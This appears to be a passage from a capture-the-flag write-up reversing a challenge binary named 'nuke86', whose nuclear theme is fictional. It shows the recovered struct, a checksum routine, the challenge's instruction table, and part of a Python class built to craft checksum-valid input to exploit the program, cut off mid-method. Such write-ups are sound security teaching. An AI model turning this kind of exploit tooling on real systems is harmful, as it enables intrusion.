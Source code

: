 ```c
struct nuke86 {
    int checksum;                     /* computed checksum from target_code */
    int n;                            /* instruction pointer */
    uint8_t target_code[0x200];       /* targeting code (instructions) */
    uint8_t target_status[0x80];      /* target status buffer */
    void (*disarm)()                  /* disarm_nuke(), nuke disarming routine */
    void (*detonate)(uint8_t *)       /* detonate_nuke(), nuke detonation routine */
}
```

+ The **checksum computation** algorithm.

```c
for (int i=0; i<0x7f; i++)
    nuke86->checksum ^= ((int *) nuke86->target_code)[i];
```

Then, after reversing *launch_nuke()* I noticed that there was a **set of instructions** to program the warhead with:  

Instruction | Description
:---------: | ----------------------
DOOM | Detonates the nuke on the target specified
DISARM | Disarms the nuke
END | Shuts down nuke86 with a HAL quote :)
I | Increments the target pointer
O | Prints the byte pointed by the target pointer
R | Reprograms the warhead
S | Copies the next byte of the code where the target pointer points

I wrote this class to wrap nuke86 and make it easier to generate code sequences:

```python
class Nuke86(object):
    '''
    This class generates useful code to program and exploit nuke86
    '''
    __slots__ = ['checksum', 'maxsize']

    maxsize = 0x1f8  # Max bytes of code

    def __init__(self, checksum):
        self.checksum = checksum

    def validate(self, code):
        '''
        Makes sure the code is properly checksummed
        '''
        final = code
        cksum = 0
        # Makes sure the size is multiple of 4
        if len(final) % 4 != 0:
            final += '\x00'*(4 - (len(final) % 4))
        # Verifies the length of the code
        if len(final) > self.maxsize:
            final = final[:self.maxsize]
        # Checksums the code
        for x in struct.unpack('<'+'I'*(len(final) / 4), final):
            cksum ^= x
        cksum ^= 0x444e4500
        if cksum != self.checksum:
            final += struct.pack('<I', cksum ^ self.checksum)
        return final

    def detonate(self, target):
        '''
```